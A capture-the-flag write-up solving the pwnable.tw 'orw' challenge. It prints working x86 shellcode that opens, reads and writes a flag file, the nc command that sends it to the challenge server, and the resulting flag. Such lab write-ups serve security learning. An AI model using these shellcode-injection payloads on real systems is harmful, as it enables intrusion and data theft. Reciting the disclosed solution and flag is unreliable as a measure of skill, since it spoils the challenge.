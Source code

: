 # orw

> Read the flag from `/home/orw/flag`.
>
> Only `open` `read` `write` syscalls are allowed to use.
>
> `nc chall.pwnable.tw 10001`

Looks like I got a 32-bit 80386 ELF.

```
$ file orw 
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

On execution, the program asks for a shellcode, which I suppose it will execute. I didn't want to just assume the program does what it says, so checked it out in Ghidra first.

![](https://imgur.com/iUurP1b.png)

So it seemed like I indeed just needed to craft a shellcode payload that reads and prints the flag file, which should be possible with only the given instructions. I tried to write the following calls:

```
fd = open("/home/orw/flag", 0_RDONLY, 0)
read(fd, shellcode-40, 40)
write(stdout, shellcode-40, 40)
```

That's opening the flag file, then reading it, then writing that to standard output. I used the address of the shellcode minus 40 bytes to store the flag. That seemed like a safe option and it wouldn't impact the shellcode being executed. I found this address, `0x804a060`, using GDB.
I wrote this payload assembly first, in `payload.asm`. I then used an online x86 compiler and got the following result:

```
\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x77\x2F\x2F\x2F\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x50\x5B\xB8\x03\x00\x00\x00\xB9\x60\xA0\x04\x08\x83\xE9\x28\xBA\x28\x00\x00\x00\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x60\xA0\x04\x08\x83\xE9\x28\xBA\x28\x00\x00\x00\xCD\x80
```

This worked:

```
$ echo "\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x77\x2F\x2F\x2F\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x50\x5B\xB8\x03\x00\x00\x00\xB9\x60\xA0\x04\x08\x83\xE9\x28\xBA\x28\x00\x00\x00\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xB9\x60\xA0\x04\x08\x83\xE9\x28\xBA\x28\x00\x00\x00\xCD\x80" | nc chall.pwnable.tw 10001
Give my your shellcode:FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}
```
